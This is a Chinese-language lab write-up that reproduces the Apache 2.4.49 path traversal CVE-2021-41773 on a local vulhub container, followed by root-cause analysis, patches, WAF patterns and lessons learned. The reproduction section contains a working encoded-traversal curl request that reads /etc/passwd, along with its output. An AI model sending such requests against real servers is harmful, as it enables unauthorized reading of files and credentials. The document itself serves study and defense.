

# CVE-2021-41773｜Apache HTTP Server 路径穿越复现

> 本报告为本地靶场环境下的安全研究记录，环境由 vulhub 提供的 Docker 镜像搭建，仅在本机回环地址访问，不涉及任何线上系统。

---

## 一、漏洞概述

| 项目 | 内容 |
| --- | --- |
| 漏洞编号 | CVE-2021-41773 |
| 影响组件 | Apache HTTP Server |
| 影响版本 | 2.4.49（2.4.50 修复不完整，衍生 CVE-2021-42013） |
| 修复版本 | 2.4.51 |
| 漏洞类型 | 路径穿越（Path Traversal），特定配置下可升级为远程代码执行 |
| 触发入口 | URL 路径中的 `.%2e` 编码序列 |
| 认证要求 | 无 |
| 危害等级 | 高危 |

一句话描述：**Apache 2.4.49 的 URL 规范化逻辑存在缺陷，攻击者用 `.%2e` 这类"编码后的点点"绕过 `..` 检查，从而跳出网站根目录，读取服务器上的任意文件。**

---

## 二、影响面

- 2.4.49 于 2021 年 9 月发布，同年 10 月公开该漏洞；
- 若站点目录配置了 `Require all granted`（很多默认配置如此），攻击者可直接读取 `/etc/passwd`、配置文件、源码；
- 若启用了 `mod_cgi`，穿越后还能执行 CGI 脚本，**升级为远程代码执行**；
- 该漏洞在野利用广泛，是 2021 年最典型的"配置 + 代码"叠加型风险。

---

## 三、环境搭建

```bash
cd vulhub/httpd/CVE-2021-41773
sudo docker compose up -d
```

| 项目 | 值 |
| --- | --- |
| 宿主机 | Windows 11 + WSL2 (Ubuntu 24.04) |
| 容器引擎 | Docker（Ubuntu 发行版仓库 docker.io） |
| 镜像 | `vulhub/cve-2021-41773`（基于 Apache 2.4.49） |
| 服务地址 | `http://localhost:8080` |
| 复现日期 | 2026-11-03 |

---

## 四、漏洞复现

### 4.1 正常访问

```bash
curl -I "http://localhost:8080/"
```

返回 200，说明 Web 服务正常。

### 4.2 构造穿越请求

```bash
curl --path-as-is "http://localhost:8080/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

**两个关键点：**

| 要点 | 说明 |
| --- | --- |
| `.%2e` | `%2e` 是 `.` 的 URL 编码，`..` 被拆成 `.%2e`，骗过只看字面 `..` 的检查 |
| `--path-as-is` | 让 curl **不要**自动规范化路径，原样把 `..` 发出去；否则 curl 自己就把路径"修正"了 |

### 4.3 复现结果

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```



**结论**：请求路径经过 4 层 `..` 跳出 Web 根目录，成功读取容器内的系统用户文件，**路径穿越成立**。

> 说明：本次仅读取 `/etc/passwd`（只读、无敏感凭据的老式用户文件），用于证明穿越能力，未做任何写入或提权操作。

---

## 五、成因分析

### 5.1 触发链路

```
请求 URL: /icons/.%2e/.%2e/.%2e/.%2e/etc/passwd
        │
        ▼
Apache 先做 URL 解码：%2e → .  得到 /icons/../../../../etc/passwd
        │
        ▼
路径规范化环节判断"是否包含 .."时逻辑不完整
        │
        ▼
字符串被拼接到 DocumentRoot 之后，拼出
   /usr/local/apache2/htdocs/../../../../etc/passwd
        │
        ▼
文件系统按真实路径解析 → 落到 /etc/passwd
```

### 5.2 根本原因

**"先解码、后校验"的顺序问题。**

安全校验应当针对**最终形态**做，而 Apache 2.4.49 在路径处理中，校验逻辑与解码/规范化逻辑没有对齐：

> 检查的时候看到的是 `.%2e`（不构成 `..`），
> 使用的时候已经变成 `..`（构成穿越）。

这与我上一份报告（CVE-2017-5638）里的结论完全一致：

> **校验发生在 A 处，使用发生在 B 处，而 B 处没有复用 A 处的结论。**

### 5.3 为什么能读到 `/etc/passwd`

容器内的 Apache 以 root 运行，且配置中目录权限较宽松（`Require all granted`）。穿越后 Apache 进程用自己的权限去读文件，自然读得到。

这也是"路径穿越"和"代码执行"的差别：**穿越本身只读文件，但如果能读到配置文件里的凭据、或者能触发 CGI，就能进一步拿下服务器。**

---

## 六、修复方案

### 6.1 官方修复（2.4.51）

- 重写路径规范化逻辑，**解码后统一做穿越检查**；
- 修复 2.4.50 中不完整的补丁（该版本仍可被 `.%2e` 的变体绕过，即 CVE-2021-42013）；
- 官方建议同时检查配置，避免对非必要目录开启 `Require all granted`。

### 6.2 临时缓解

| 措施 | 说明 |
| --- | --- |
| 升级到 2.4.51+ | 根本措施 |
| 收紧目录配置 | 只对确实需要对外提供静态资源的目录开放，其余保持 deny |
| WAF 规则 | 拦截 URL 中出现 `%2e%2e`、`.%2e`、`%252e` 等编码穿越特征的请求 |
| 降权运行 | Apache 进程不以 root 运行，降低穿越后的影响面 |

### 6.3 普适原则

1. **安全校验要针对"最终形态"**：解码、规范化应当在检查之前完成，且检查与使用必须使用同一个结果；
2. **编码不是攻击，解码才是**：黑名单里写 `../` 毫无意义，因为 `%2e%2e%2f` 解码后一样是 `../`；
3. **纵深防御**：即使代码有洞，目录权限、进程降权、WAF 也能把影响限制在可控范围。

---

## 七、复现心得

1. **一个参数就能打穿**：这条漏洞不需要构造复杂报文，只需要理解"编码 → 解码 → 规范化"的顺序；
2. **工具会"帮倒忙"**：curl 默认会规范化路径，`--path-as-is` 是必须的——这也说明**测试时必须知道工具做了什么**；
3. **配置同样是漏洞的一部分**：如果目标目录是 `Require all denied`，同样的穿越请求只会得到 403；
4. **对比教学靶场**：DVWA 的路径穿越是"代码没过滤"，这里是"框架的规范化逻辑写错了"——真实系统的漏洞往往更隐蔽，也更值得研究。

---

## 八、参考

- NVD：<https://nvd.nist.gov/vuln/detail/CVE-2021-41773>
- Apache 安全公告：<https://httpd.apache.org/security/vulnerabilities_24.html>
- CVE-2021-42013（修复不完整）：<https://nvd.nist.gov/vuln/detail/CVE-2021-42013>
- vulhub 环境：<https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773>

---

## 附录：环境清理

```bash
cd vulhub/httpd/CVE-2021-41773
sudo docker compose down
```
